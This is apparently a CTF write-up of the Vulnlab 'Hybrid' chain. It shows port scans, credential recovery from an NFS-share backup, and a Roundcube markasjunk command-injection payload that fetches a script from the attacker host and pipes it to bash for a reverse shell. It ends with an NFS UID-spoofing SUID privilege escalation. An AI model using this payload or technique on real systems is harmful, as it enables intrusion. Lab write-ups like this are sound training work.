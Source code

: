 ```yaml
---
title: Hybrid
date: 2024-06-02 11:00:00
categories: [Windows]
tags: [vulnlab, active directory]   # TAG names should always be lowercase
description: Writeup of the Hybrid chain on Vulnlab
---
```


#Hybrid

## Enumeration

While scanning these machines we find the following:

### mail01

```
Nmap scan report for 10.10.138.70
Host is up, received user-set (0.014s latency).
Scanned at 2023-10-12 18:55:25 CEST for 333s
Not shown: 65434 closed tcp ports (reset), 86 filtered tcp ports (no-response)
PORT      STATE SERVICE  REASON         VERSION
22/tcp    open  ssh      syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
25/tcp    open  smtp     syn-ack ttl 63 Postfix smtpd
80/tcp    open  http     syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
110/tcp   open  pop3     syn-ack ttl 63 Dovecot pop3d
111/tcp   open  rpcbind  syn-ack ttl 63 2-4 (RPC #100000)
143/tcp   open  imap     syn-ack ttl 63 Dovecot imapd (Ubuntu)
587/tcp   open  smtp     syn-ack ttl 63 Postfix smtpd
993/tcp   open  ssl/imap syn-ack ttl 63 Dovecot imapd (Ubuntu)
995/tcp   open  ssl/pop3 syn-ack ttl 63 Dovecot pop3d
2049/tcp  open  nfs_acl  syn-ack ttl 63 3 (RPC #100227)
36127/tcp open  mountd   syn-ack ttl 63 1-3 (RPC #100005)
38229/tcp open  mountd   syn-ack ttl 63 1-3 (RPC #100005)
38815/tcp open  status   syn-ack ttl 63 1 (RPC #100024)
41453/tcp open  mountd   syn-ack ttl 63 1-3 (RPC #100005)
43175/tcp open  nlockmgr syn-ack ttl 63 1-4 (RPC #100021)
Service Info: Host:  mail01.hybrid.vl; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### dc01

```
Nmap scan report for 10.10.138.69
Host is up, received user-set (0.016s latency).
Scanned at 2023-10-12 18:55:25 CEST for 333s
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2023-10-12 17:00:09Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: hybrid.vl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: hybrid.vl0., Site: Default-First-Site-Name)
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: hybrid.vl0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: hybrid.vl0., Site: Default-First-Site-Name)
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
63742/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
63751/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
64485/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Port 80 
We find that the mail01 server has some mail services running, NFS and has joined a Active Directory.
On port 80 we find a RoundCube Web interface.

![Roundcube interface](/assets/img/post_images/Hybrid/Hybrid_01.png)

Not finding much we can go on, we turn back to our scan results and try NSF.
Let's see if there are some shares available using _showmount_: 

```shell 
showmount -e 10.10.138.70
```
And there is indeed a share available:
![NFS share](/assets/img/post_images/Hybrid/Hybrid_02.png)


Next, we mount the share on our attack machine:
```Shell 
sudo mount -t nfs 10.10.138.70:/opt/share ./nfs_share/ -o nolock
```

Inside we find _backup.tar.gz_:
![Backup.tar.gz](/assets/img/post_images/Hybrid/Hybrid_03.png)

Let's enumerate the content of the backup file!

```shell
.
├── backup.tar.gz
├── etc
│   ├── dovecot
│   │   └── dovecot-users
│   ├── passwd
│   ├── postfix
│   │   └── main.cf
│   └── sssd
│       └── sssd.conf
└── opt
    └── certs
        └── hybrid.vl
            ├── fullchain.pem
            └── privkey.pem
```

Inside the dovecot-users file we find some credentials:
```
admin@hybrid.vl:{plain}Duckling21
peter.turner@hybrid.vl:{plain}PeterIstToll!
```

Trying these out on the webinterface we found earlier, we can log into RoundCube as peter!

## User

The only email inside talks about a junk filter plugin, when we look for the plugin we find it's called: _markasjunk_.
![markasjunk](/assets/img/post_images/Hybrid/Hybrid_04.png)

Looking for vulnerabilities we find the following blog: _https://ssd-disclosure.com/ssd-advisory-roundcube-markasjunk-rce/_

__Tldr;__ this version of markasjunk has a command injection vulnerability that can be triggered by changing a Identity, and marking the email as spam.
Using the following payload we can get a reverse shell:
`peter.turner&curl${IFS}10.8.0.64/rs.sh${IFS}|${IFS}bash&@hybrid.vl`

![reverse_shell](/assets/img/post_images/Hybrid/Hybrid_05.png)


## Privilege Escalation
Looking around the machine, we do not find much of value. However, we can write to the NFS share. There's no `no_root_squash`, so we cannot place binaries owned by root, nor change ownership.
However, we can try: https://book.hacktricks.xyz/network-services-pentesting/nfs-service-pentesting#permissions

To abuse the read/write rights on the nfs share we need the uid of `peter.turner`.
![UID_Peter](/assets/img/post_images/Hybrid/Hybrid_06.png)


We make a new useraccount on our _attack machine_ with the uid of peter.turner.  -> 
`sudo adduser legitpeter --uid 902601108`


On the _victim machine_ we copy bash to the /opt/share directory.

Next, on the _attack machine_ we set the SUID on the binary: 
![SUID_Peter](/assets/img/post_images/Hybrid/Hybrid_07.png)


On the _victim machine_ we check the binary as well:
![Checking the binary for userrights](/assets/img/post_images/Hybrid/Hybrid_08.png)

Then we activate the binary using `-p` (privileged mode) and we are effectively peter.turner:
![We are Peter](/assets/img/post_images/Hybrid/Hybrid_09.png)

In Peter's home directory we find the first flag and a passwords.kdbx file!
![User_flag](/assets/img/post_images/Hybrid/Hybrid_10.png)





